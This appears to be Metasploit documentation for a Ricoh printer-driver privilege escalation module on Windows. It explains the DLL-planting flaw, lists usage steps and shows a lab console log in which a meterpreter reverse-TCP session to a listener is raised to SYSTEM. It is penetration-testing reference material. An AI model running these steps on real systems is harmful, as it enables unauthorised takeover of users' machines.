 ## Vulnerable Application

  [Various Ricoh printer drivers](https://www.ricoh.com/info/2020/0122_1/list) allow escalation of
  privileges on Windows systems.

  For vulnerable drivers, a low-privileged user can
  read/write files within the `RICOH_DRV` directory
  and its subdirectories.

  `PrintIsolationHost.exe`, a Windows process running
  as NT AUTHORITY\SYSTEM, loads driver-specific DLLs
  during the installation of a printer. A user can
  elevate to SYSTEM by writing a malicious DLL to
  the vulnerable driver directory and adding a new
  printer with a vulnerable driver.

  Multiple runs of this module may be required
  given successful exploitation is time-sensitive.

## Verification Steps

  1. Install a vulnerable Ricoh driver
  2. Start msfconsole
  3. Get a session with basic privileges
  4. Do: ```use exploit/windows/local/ricoh_driver_privesc```
  5. Do: ```set SESSION <sess_no>```
  6. Do: ```run```
  7. You should get a shell running as SYSTEM.

## Scenarios

### Tested on Ricoh PCL6 Universal Driver `v4.13`

  ```
  msf > use multi/handler
  msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf exploit(multi/handler) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (206403 bytes) to 192.168.37.199
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.199:49670) at 2020-02-06 12:47:59 -0600

  meterpreter > getuid
  Server username: DESKTOP-A97LIDN\ricoh-test
  meterpreter > sysinfo
  Computer        : DESKTOP-A97LIDN
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  meterpreter > background
  [*] Backgrounding session 1...
  msf exploit(multi/handler) > use ricoh_driver_privesc

  Matching Modules
  ================

     #  Name                                        Disclosure Date  Rank    Check  Description
     -  ----                                        ---------------  ----    -----  -----------
     0  exploit/windows/local/ricoh_driver_privesc  2020-01-22       normal  Yes    Ricoh Driver Privilege Escalation


  [*] Using exploit/windows/local/ricoh_driver_privesc
  msf exploit(windows/local/ricoh_driver_privesc) > set session 1
  session => 1
  msf exploit(windows/local/ricoh_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf exploit(windows/local/ricoh_driver_privesc) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf exploit(windows/local/ricoh_driver_privesc) > check
  [*] The target appears to be vulnerable. Ricoh driver directory has full permissions
  msf exploit(windows/local/ricoh_driver_privesc) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Adding printer JLFJCi...
  [*] Sending stage (206403 bytes) to 192.168.37.199
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.199:49673) at 2020-02-06 12:48:40 -0600
  [*] Deleting printer JLFJCi
  [+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\GFHCkvh.bat
  [+] Deleted C:\Users\RICOH-~1\AppData\Local\Temp\headerfooter.dll

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : DESKTOP-A97LIDN
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
